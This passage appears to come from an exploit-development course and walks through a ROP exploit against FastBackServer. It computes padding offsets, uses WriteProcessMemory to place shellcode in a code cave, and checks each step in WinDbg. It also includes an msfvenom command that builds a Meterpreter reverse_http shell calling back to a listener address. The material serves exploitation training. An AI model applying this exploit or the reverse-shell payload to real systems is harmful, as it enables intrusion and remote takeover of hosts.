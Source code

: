 First, we'll need to find the offset from the end of the ROP chain to the lpBuffer stack address where our shellcode will reside. This value will be used to calculate the size of the padding area prepended to our shellcode. Next, we'll generate an encoded Meterpreter shellcode to replace the dummy shellcode.

To figure out the offset, we can display data at an address lower than the value in lpBuffer.

Earlier, we found lpBuffer at the stack address 0x110ee41c. If we subtract 0x70 bytes, we find the stack content shown
	dd 110ee41c-70
	? 110ee41c - 110ee3b0
	

Here we discover that the offset from the first DWORD after the ROP chain to lpBuffer is 0x6C bytes. We must add 0x6C bytes of padding before placing the shellcode.

Let's update our proof of concept with a second offset variable (offset2) and some dummy shellcode as shown below.
...
offset2 = b"C" * 0x6C
shellcode = b"\x90" * 0x100
padding = b"D" * (0x600 - 276 - 4 - len(rop) - len(offset2) - len(shellcode))

formatString = b"File: %s From: %d To: %d ChunkLoc: %d FileLoc: %d" % (offset+wpm+eip+rop+offset2+shellcode+padding,0,0,0,0)
buf += formatString
...

After these changes, lpBuffer will point to our dummy shellcode and WriteProcessMemory will copy the shellcode into the code cave.

To test the updated proof of concept, we'll restart FastBackServer, attach WinDbg, set a breakpoint on WriteProcessMemory, and launch the exploit:
	bp KERNEL32!WriteProcessMemoryStub
	g
	dds esp L6
	dd 0dcde41c-10 L8
	


By subtracting 0x10 bytes from lpBuffer, we can verify that our dummy shellcode starts exactly where lpBuffer points.

Next, let's generate windows/meterpreter/reverse_http shellcode with msfvenom, remembering to supply the bad characters 0x00, 0x09, 0x0A, 0x0C, 0x0D, and 0x20:
	msfvenom -p windows/meterpreter/reverse_http LHOST=192.168.119.120 LPORT=8080 -b "\x00\x09\x0a\x0b\x0c\x0d\x20" -f python -v shellcode
	
We can now insert the generated shellcode in the proof of concept using the shellcode variable.

Once again, we'll restart FastBackServer, attach WinDbg, and set a breakpoint on WriteProcessMemory. Listing 63 shows the results from WinDbg when the proof of concept is executed.
	bp KERNEL32!WriteProcessMemoryStub
	g
	pt
	u poi(esp)

